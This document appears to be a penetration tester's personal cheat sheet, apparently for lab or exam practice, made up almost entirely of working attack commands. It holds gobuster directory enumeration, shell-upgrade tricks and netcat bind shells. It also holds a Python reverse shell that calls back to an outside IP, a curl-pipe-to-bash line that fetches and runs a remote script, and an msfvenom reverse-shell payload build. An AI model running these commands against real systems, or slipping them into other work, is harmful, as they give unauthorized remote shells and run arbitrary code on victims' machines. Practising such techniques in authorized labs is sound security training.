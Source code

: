 ```bash
gobuster dir -u http://192.168.50.242 -w /usr/share/wordlists/dirb/common.txt -o mailsrv1/gobuster -x txt,pdf,config
```
## revshells
upgrade shell:
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
# CTRL+Z to background 
stty raw -echo; fg
# PRESS ENTER (do not type anything else just hit enter at the blank prompt)
reset
xterm

# bonus points (not sure precisely what this helps):
export TERM=xterm
```

```bash
python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
```

nc bind:
```bash
nc -nlvp 4444 -e cmd.exe
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 4444 > /tmp/f
```

bootleg text editor for revshell: (heredoc)
```bash
cat << 'EOF' > file.txt
```
### python nested quotes revshell solution

put it in a bash script
```bash
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.118.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
then dl it and pipe it in
```bash
curl http://192.168.118.11/shell.sh | bash
```

### msfvenom elf binary
```bash
sudo msfvenom -p linux/x64/shell_reverse_tcp  LHOST=tun0 LPORT=81 -f elf -o /usr/local/share/post-exploitation/linux/privEsc/shell81
```
## useful repos
